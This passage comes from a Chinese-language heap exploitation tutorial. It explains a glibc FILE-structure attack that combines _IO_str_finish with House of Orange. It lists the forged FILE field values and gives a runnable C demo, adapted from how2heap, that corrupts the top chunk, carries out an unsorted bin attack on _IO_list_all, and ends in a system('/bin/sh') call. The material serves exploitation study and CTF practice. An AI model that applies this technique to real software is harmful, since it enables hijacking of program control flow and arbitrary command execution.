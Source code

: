 ```bash
_flags = (binsh_in_libc + 0x10) & ~1
_IO_buf_base = binsh_addr

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1
vtable = _IO_str_finish - 0x18
fp+0xe8 -> system_addr
```



#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_finish conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack

    top[0] = ((size_t) &binsh_in_libc + 0x10) & ~1;
    top[7] = ((size_t)&binsh_in_libc); // buf_base

    // house_of_orange conditions
    top[1] = 0x61;
    top[5] = 0x1 ; //_IO_write_ptr
    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t) stdin - 0x33f0 - 0x18;
    top[29] = (size_t) &winner;

    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

